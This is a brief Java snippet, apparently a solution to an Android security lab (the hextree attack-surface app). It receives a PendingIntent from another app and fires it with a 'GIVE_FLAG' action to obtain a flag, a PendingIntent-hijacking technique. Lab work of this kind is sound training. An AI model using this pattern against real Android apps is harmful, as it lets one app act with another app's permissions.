 ```java
Intent receivedIntent = getIntent();  
if (receivedIntent.getParcelableExtra("pending_intent") != null) {  
    PendingIntent pendingIntent = receivedIntent.getParcelableExtra("pending_intent");  
  
    Intent intent = new Intent();  
    intent.setAction("io.hextree.attacksurface.GIVE_FLAG");  
    intent.putExtra("code", 42);  
  
  
    try {  
        pendingIntent.send(this, 0, intent);  
    } catch (PendingIntent.CanceledException e) {  
        throw new RuntimeException(e);  
    }  
}else{
	Log.d("Nothing","مافيش pending intent وصل" );
}
```